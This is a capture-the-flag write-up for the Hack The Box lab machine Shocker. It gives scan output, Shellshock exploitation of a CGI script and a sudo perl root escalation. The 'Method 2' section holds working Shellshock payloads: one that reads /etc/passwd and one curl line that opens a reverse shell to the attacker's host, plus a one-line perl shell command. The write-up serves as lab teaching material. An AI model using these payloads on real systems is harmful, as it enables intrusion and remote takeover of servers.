 ```yaml
---
"title": "Hack The Box - Shocker"
"date": 2019-12-03
"tags": ["linux", "easy", "sudo", "shellshock"]
"keywords": ["linux", "easy", "sudo", "shellshock"]
"categories": ["HackTheBox OSCP-Like"]
"author": "Ghostbyt3"
"description": "We are going to pwn Shocker from Hack The Box."
"featured_image": "/img/htb-shocker/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/108](https://www.hackthebox.eu/home/machines/profile/108)


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage[br/](br/)
![Untitled](/img/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![Untitled](/img/htb-shocker/3.png)[br/](br/)
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![Untitled](/img/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![Untitled](/img/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![Untitled](/img/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![Untitled](/img/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

By injecting the `UserAgent` Manually I can read the `/etc/passwd` so by using this I can get reverse shell too.
```bash
root@kali:~/Downloads# echo -e "HEAD /cgi-bin/user.sh HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.10.10.56 80
HTTP/1.1 200 OK
Date: Tue, 07 Jul 2020 04:21:30 GMT
Server: Apache/2.4.18 (Ubuntu)
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog: x:104:108::/home/syslog:/bin/false
_apt: x:105:65534::/nonexistent:/bin/false
lxd: x:106:65534::/var/lib/lxd/:/bin/false
messagebus: x:107:111::/var/run/dbus:/bin/false
uuidd: x:108:112::/run/uuidd:/bin/false
dnsmasq: x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd: x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly: x:1000:1000:shelly,,,:/home/shelly:/bin/bash
Connection: close
Content-Type: text/x-sh
```

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

```bash
curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0[&1 2](&1 2)&1' http://10.10.10.56/cgi-bin/user.sh
```

It is injecting on the `` User-Agent `` on the request header.

![Untitled](/img/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.